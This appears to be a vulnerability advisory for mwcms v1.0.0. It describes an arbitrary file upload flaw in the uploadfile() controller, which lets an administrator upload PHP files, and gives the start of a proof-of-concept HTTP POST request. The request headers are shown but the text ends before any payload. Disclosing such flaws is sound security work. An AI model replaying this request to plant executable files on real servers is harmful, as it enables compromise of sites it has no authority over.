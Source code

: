 # Vendor

www.mainwww.com

# Product

mwcms

# version

v1.0.0

```
# Download Source Code
git clone https://gitee.com/xiamen-code-english-network/mwcms.git
```

# Description

In the app/controller/Upload.php page, the uploadfile() controller only filters files based on size and does not check the file contents or extensions. This allows attackers to upload PHP files.

# Analysis
PS：This requires backend administrator privileges.
In the file upload methods, there are three controllers: uploadfile(), uploadimage(), and uploadeditor(). For normal site operations, the uploadimage() controller is used when uploading images. This controller has file extension filtering, preventing the upload of PHP files. However, an attacker can modify the request to use the uploadfile() controller instead. In this case, the file extension is not checked, allowing PHP files to be uploaded directly.
<img width="947" alt="image" src="https://github.com/user-attachments/assets/cd2eba13-32cc-4bf8-b4d5-8b19e6725f92">
<img width="951" alt="image" src="https://github.com/user-attachments/assets/17183357-599f-43ab-a98c-7a6aa9c117c8">

# Poc

```
POST /uploadfile.html HTTP/1.1
Host: 192.168.17.24:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------1766500401941422976504649212
Content-Length: 356
Origin: http://192.168.17.24:8000
Connection: close
Referer: http://192.168.17.24:8000/cms/images/index
```